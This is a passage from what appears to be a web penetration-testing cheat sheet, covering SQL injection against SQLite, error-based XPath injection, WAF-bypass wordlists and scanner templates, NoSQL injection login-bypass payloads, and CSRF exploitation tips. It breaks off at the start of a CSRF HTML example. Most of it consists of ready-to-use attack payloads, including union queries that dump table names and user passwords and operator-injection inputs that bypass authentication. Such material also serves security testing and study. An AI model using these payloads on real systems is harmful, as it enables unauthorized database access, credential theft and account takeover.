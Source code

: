 ```
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```
-> extracting table users  
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

-> Reference  
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf  

### XPATH Notation
e.g.  
```
%' and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) -- -
``` 

### Wordlist for SQL Injection - Bypass  
https://gist.githubusercontent.com/zetc0de/f4146eb278805946ab064a753eac6a02/raw/e126452093b9cde7f82eff14a15f8ceca8188701/sqli-bypass-waf.txt

### Doc for SQL Injection - Bypass  
https://github.com/OWASP/www-community/blob/master/pages/attacks/SQL_Injection_Bypassing_WAF.md

### Templates - Nuclei
https://raw.githubusercontent.com/geeknik/the-nuclei-templates/main/error-based-sql-injection.yaml
https://raw.githubusercontent.com/panch0r3d/nuclei-templates/master/header_sqli.yaml
https://raw.githubusercontent.com/ghsec/ghsec-jaeles-signatures/master/time-sqli.yaml

## NoSQL Injection (NoSQLI)
-> Auth bypass
```
username=test&password=test  
username=admin&password[$ne]=abc  
username=admin&password[$regex]=^.{6}$  
username=admin&password[$regex]=^a.....
{"username": {"$regex": "admin"}, "password": {"$ne": ""} }
{"username": {"$eq": "admin"}, "password": {"$ne": ""} }
{"username": {"$ne": ""}, "password": {"$ne": ""} }
```
-> regex
https://quickref.me/regex
https://regex101.com/

## Cross-Site Request Forgery (CSRF)
### Tricks
- The session must only contain Cookies or HTTP Basic Authentication header, no other headers must be used to handle the session like a JWT for example.  
- Cross-Origin Resource Sharing (CORS) - Is used for sharing resources from different origins and allowing servers to specify who can access their assets and which HTTP request methods are allowed from external resources. You must take into account the CORS policy of the victim's website, if GET and POST requests are made from a form and you do not need to read the response the CORS policy will not prevent the attack. However, through other methods such as PUT and DELETE, for example, it will not be possible to make requests using HTML forms;  
- If the session cookie has the samesite flag, it will not be possible to send it through the attack;  
- Analysis also other mechanisms that can prevent/difficult your attack like referer, captcha, csrf tokens in parameters or in header.  
https://rodolfomarianocy.medium.com/metodologia-para-explora%C3%A7%C3%A3o-de-csrf-750f333da4fc	
	
e.g.  
-> csrf.html  
```